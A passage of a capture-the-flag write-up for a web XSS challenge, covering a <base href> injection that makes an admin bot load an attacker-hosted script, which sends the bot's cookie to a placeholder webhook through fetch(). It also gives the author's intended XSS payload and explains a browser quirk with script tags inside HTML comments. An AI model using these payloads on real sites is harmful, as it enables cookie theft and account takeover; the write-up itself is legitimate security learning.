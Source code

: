 ![snippet bot request](snippet-bot.png)

So after starting a http server with `python3 -m http.server 8000`. I'll just make a simple script at the path `/cdn-cgi/challenge-platform/h/g/scripts/jsd/main.js` that'll exfiltrate the cookie.

```javascript
fetch("https://<webhook>/?flag=" + document.cookie)
```

Then I'll just send this payload to the bot and get the exfiltrated flag.

`https://snippets-web-challs.csc.tf/?name=%3Cbase%20href=%22https://<uuid>.ngrok-free.app%22%3E&snippet=asd`

**Flag:** `CSCTF{Foiled_by_backwards_compatibility}`

### Intended

After the competition ended, the author revealed that the intended solution is this:

`http://localhost:3000/?name=%0aalert()//%3C/script%3E&snippet=%3Cp%20id=%22%3C!--%3Cscript%3E%22%3E`

Reference: [https://creds.nl/2024-07-27-overlooked-xss-vector](https://creds.nl/2024-07-27-overlooked-xss-vector){:target="_blank"}

That was a relatively new article, I'm still confused on why the browser will parse the script tag inside string. But I'll take note of this for future uses.

> Note that closing a script tag inside a HTML comment still closed the previous open script tag

If we have something like this
```html
<html>
<body>
<script>
	console.log("<!--<script>");
</script>
...
<input type="text" value="--></script><b>test</b>">
...
</body>
</html>
```
The browser will just "merge" the two sets of `script` tags together. Which result in this:
```html
<script>
	console.log("<!--<script>");
</script>
...
<input type="text" value="--></script>
```
Even the syntax highlighter doesn't know what's going on lol. The script that's actually ran is this
```javascript
	console.log("<!--<script>");
</script>
...
<input type="text" value="-->
```
Which is invalid javascript and will throw an error. But we can work around it with some clever tricks as seen in the article.
In the case of this challenge, if we put in the author's payload, we'll get something like:
```html
<!DOCTYPE html>
<html>
  <head>
...
    <script nonce="${nonce}">
```